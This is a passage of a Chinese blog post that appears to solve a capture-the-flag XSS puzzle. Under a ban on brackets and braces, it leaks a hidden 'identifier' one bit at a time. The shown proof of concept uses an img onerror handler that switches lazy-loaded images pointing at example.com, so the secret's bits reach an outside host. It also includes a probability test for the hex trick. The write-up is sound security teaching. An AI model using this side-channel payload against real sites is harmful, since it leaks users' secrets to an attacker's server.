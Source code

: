 有了第一個字元了！那第二個怎麼辦？

沒辦法用 `identifier[1]`，因為不能用括號。我想說有沒有 `str.1` 這種語法，結果也沒有。

在想過各種可能以後，我覺得這條路是死路，不可能在不能使用 `[](){}` 的情況下，拿到第 n 個字元。

## 解開弱化版？

雖然說我覺得不可能拿到第 n 個字元，解題也就此卡住，但我有了一個大膽的想法。

字串我沒有辦法拿到第 n 個字元，但如果是數字呢？我是不是可以透過一系列數學運算拿到？例如說 123，要拿到 2 就是 123/10%10 之類的（不過出來會是小數）。或者是直接利用二進位，`num&1` 就可以知道 num 的最後一個 bit，`num&2` 就可以知道倒數第二個 bit，以此類推，就可以知道每一個 bit 是多少。

可是 identifier 不是數字，那該怎麼辦？想辦法轉成數字！如果 identifier 只包含 0-9a-z，那我們可以在前面加上 `0x` 並搭配 + 轉成數字，最後會像這樣：

``` js
<body>
  <div style=height:9999px id=a>0x</div>
  <img src=https://example.com/x00 id=x00 loading=lazy>
  <img src=https://example.com/x01 id=x01 loading=lazy>
  <img src=https://example.com/x10 id=x10 loading=lazy>
  <img src=https://example.com/x11 id=x11 loading=lazy>
  <img src=https://example.com/x20 id=x20 loading=lazy>
  <img src=https://example.com/x21 id=x21 loading=lazy>
  <img src=x onerror=
a.innerText+identifier&1?x01.loading++:x00.loading++;
a.innerText+identifier&2?x11.loading++:x10.loading++;
a.innerText+identifier&4?x21.loading++:x20.loading++ >

</body>
<script>
  var identifier = 'a4' // 164
  // 10100100
  
</script>
```

這邊要注意的是 operator 的優先順序，有些如果順序不如預期就無法那樣用，例如說：`+'0x'+identifier` 就會先執行 `+0x`，而不是先把後面的字串相加。這邊剛好 & 會先試著轉成數字，所以才能這樣用。

從上面的 POC 可以證明如果我們能把 identifier 轉成數字，我們就可以解開這題。但 identifier 可能會有 f 以上的字元，那他可以轉成數字的機率是多少呢？

``` js
var count = 0
for(let i=0; i<100000;i++) {
  var id = getIdentifier()
  if (!Number.isNaN(Number('0x' + id))) {
    count++
  }
}
// 7, 0.007
console.log(count, (count * 100) / 100000)
```

不到 0.01%，非常低的機率，平均需要一萬次才能成功。
